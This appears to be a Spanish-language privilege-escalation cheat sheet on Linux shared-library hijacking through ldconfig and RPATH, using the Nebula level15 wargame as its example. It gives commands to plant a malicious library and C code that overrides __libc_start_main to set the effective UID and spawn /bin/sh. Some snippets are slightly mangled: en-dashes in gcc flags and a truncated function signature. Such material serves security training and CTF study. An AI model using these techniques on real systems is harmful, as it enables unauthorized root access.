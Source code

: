 # Shared Library

## ldconfig

Identificar bibliotecas compartidas con `ldd`

```
$ ldd /opt/binary
    linux-vdso.so.1 (0x00007ffe961cd000)
    vulnlib.so.8 => /usr/lib/vulnlib.so.8 (0x00007fa55e55a000)
    /lib64/ld-linux-x86-64.so.2 => /usr/lib64/ld-linux-x86-64.so.2 (0x00007fa55e6c80 
```
    
Cree una biblioteca en `/tmp` y active la ruta.

```sh
gcc –Wall –fPIC –shared –o vulnlib.so /tmp/vulnlib.c
echo "/tmp/" > /etc/ld.so.conf.d/exploit.conf && ldconfig -l /tmp/vulnlib.so /opt/binary
```

## RPATH

```sh
level15@nebula:/home/flag15$ readelf -d flag15 | egrep "NEEDED|RPATH"
 0x00000001 (NEEDED)                     Shared library: [libc.so.6]  
 0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]

level15@nebula:/home/flag15$ ldd ./flag15  
 linux-gate.so.1 =>  (0x0068c000)
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0x00110000)

 /lib/ld-linux.so.2 (0x005bb000)
```

Al copiar la biblioteca en `/var/tmp/flag15/`, el programa la utilizará en este lugar como se especifica en la variable RPATH.

```sh
level15@nebula:/home/flag15$ cp /lib/i386-linux-gnu/libc.so.6 /var/tmp/flag15/

level15@nebula:/home/flag15$ ldd ./flag15 
 linux-gate.so.1 =>  (0x005b0000)
 libc.so.6 => /var/tmp/flag15/libc.so.6 (0x00110000)
 /lib/ld-linux.so.2 (0x00737000)
```

Luego cree una biblioteca malvada en `/var/tmp` con `gcc -fPIC -shared -static-libgcc -Wl`, `-version-script=version`, `-Bstatic exploit.c -o libc.so.6`

```sh
#include<stdlib.h>

#define SHELL "/bin/sh"

int __libc_start_main(int (*main) (int, char **, char **), int argc, char ** ubp_av,
{
 char *file = SHELL; 
  char *argv[] = {SHELL,0};
 setresuid(geteuid(),geteuid(), geteuid());  
 execve(file,argv,0);
}
```

